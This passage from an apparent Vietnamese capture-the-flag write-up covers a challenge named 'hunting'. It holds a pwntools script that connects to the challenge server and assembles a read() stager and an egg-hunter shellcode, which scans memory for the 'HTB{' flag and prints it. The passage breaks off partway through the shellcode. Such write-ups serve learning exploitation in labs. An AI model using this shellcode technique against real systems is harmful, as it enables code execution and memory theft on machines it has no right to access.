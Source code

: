 ```c 
        mov al, [edi+3]
        cmp al, '{'
        jne next_page

        mov eax, 4   # read
        mov ebx, 1
        mov ecx, edi
        mov edx, 0x100
        int 0x80
```
- cuối cùng thì ta cũng có được flag 

![image](https://github.com/gookoosss/CTF/assets/128712571/b25cd585-ffb6-4b96-a96b-57214de17ba1)


## script 

```python 
from pwn import *

p = process('./hunting')
p = remote('167.99.82.136', 32212)

# gdb.attach(p, gdbscript = '''
# b*0x5655654a
# c
# ''')

# input()

shellcode1 = asm('''
                mov eax , 3
                xor ebx, ebx
                mov edx, 0x400
                int 0x80
                ''', arch = 'i386')

shellcode2 = asm(
    '''
    init:
        mov edi, 0x60000000
    
    run:
        mov eax, 4
        mov ebx, 1
        mov ecx, edi
        mov edx, 1
        int 0x80
        cmp al, 0xf2
        je next_page
        jmp check

    next_page:
        add edi, 0x10000
        jmp run

    check:
        mov al, [edi+0]
        cmp al, 'H'
        jne next_page

        mov al, [edi+1]
        cmp al, 'T'
```